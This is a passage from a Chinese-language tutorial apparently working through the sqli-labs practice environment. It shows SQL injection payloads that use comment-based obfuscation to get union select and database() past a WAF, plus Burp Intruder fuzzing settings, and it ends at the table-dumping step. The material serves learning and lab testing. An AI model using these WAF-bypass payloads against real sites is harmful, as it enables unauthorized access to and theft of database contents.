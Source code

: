 依旧可以利用`/*/--/*/` 的方式：

```bash
http://yourIp/sqli-labs-master/Less-1/?id=1' order/*/--/*/by 3--+
```

#### union select

```bash
http://yourIp/sqli-labs-master/Less-1/?id=1' union select 1,2--+  拦截
http://yourIp/sqli-labs-master/Less-1/?id=1' unionselect--+ 拦截
http://yourIp/sqli-labs-master/Less-1/?id=1' union--+不拦截
http://yourIp/sqli-labs-master/Less-1/?id=1' union --+ 不拦截
http://yourIp/sqli-labs-master/Less-1/?id=1' union1--+不拦截
```

从上述内容可以看出关键点还是跟union空格seelct 中的空格上，拦截上和order by 看着差不多，但是如果还用上面的`/*/--/*/`的方式做还可以吗？

```bash
http://yourIp/sqli-labs-master/Less-1/?id=1' union/*/--/*/select1,2--+
```

执行过之后发现被拦截了，说明/*/--/*/中的/--/失效了，那还有什么办法解决呢？

我个人认为该软件WAF对union select的防护比order by的防护要多很多，那么我们只能重新走老路了，再次利用Burp Suite用增加一些特殊字符或者拉长最大长度的方法重新FUZZ测试一遍。

Intruder中Positions设置占位符。

URL：

```bash
http://yourIp/sqli-labs-master/Less-1/?id=1’ union/**/select 1,2,3--+
```

Intruder中Payloads中的character se字符集为+-/*!#@  并且最小长度为4，最大长度为5。

验证： 

```bash
http://yourIp/sqli-labs-master/Less-1/?id=1' union/*/-+-+*/select 1,2,3--+
```

##### 暴库

既然能绕过union 那么我们就可以进一步扩大战果，比如先查询当前数据库；

```bash
http://yourIp/sqli-labs-master/Less-1/?id=-1' union/*/-+-+*/select 1,2,database()--

http://yourIp/sqli-labs-master/Less-1/?id=-1' union/*/-+-+*/select 1,2,database--+
```

经过测试发现只对database()函数进行拦截，不对database关键字进行拦截，那么如何解决呢？当然可以利用前面的注释方法进行绕过：

```bash
http://yourIp/sqli-labs-master/Less-1/?id=-1' union/*/-+-+*/select 1,2,database(/*/--/*/)--+
```

可以看到当前数据库为security

##### 暴表名
